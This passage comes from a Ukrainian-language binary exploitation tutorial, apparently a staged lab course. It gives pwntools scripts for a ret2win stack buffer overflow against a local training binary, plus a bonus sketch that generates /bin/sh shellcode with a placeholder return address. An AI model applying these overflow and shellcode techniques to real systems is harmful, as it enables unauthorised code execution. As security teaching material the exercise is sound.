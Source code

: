 ### Завдання 3: Контроль більше ніж RIP

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF('../build/stage06_ret2win', checksec=False)
win = elf.symbols['win']
main = elf.symbols['main']

# Спробуємо виконати win() → main() → win()
io = process('../build/stage06_ret2win')

payload = (
    b'A' * 72 +           # Padding
    p64(win) +            # Перший return → win()
    b'B' * 8 +            # Фейковий RBP для win
    p64(main)             # Другий return → main() (не спрацює бо win робить _exit)
)

io.sendlineafter(b'name\n', payload)
print(io.recvall(timeout=1).decode())
io.close()
```

### Завдання 4: Shellcode замість win() (бонус)

Оскільки NX=OFF, можна виконати shellcode:

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'

# Генеруємо shellcode для execve("/bin/sh")
shellcode = asm(shellcraft.sh())
print(f"Shellcode: {len(shellcode)} байт")

io = process('../build/stage06_ret2win')

# Кладемо shellcode в буфер, стрибаємо на нього
# Потрібна адреса буфера (складно без leak, для демонстрації)
# Простіше використати win(), але це показує можливість

io.sendlineafter(b'name\n', b'A' * 72 + p64(0xdeadbeef))  # Заглушка
io.close()

print("[!] Це завдання складніше - потрібна адреса стеку")
print("[!] У stage 07 ви навчитеся витягувати адреси")
```

## 💡 Порівняння з попередніми етапами
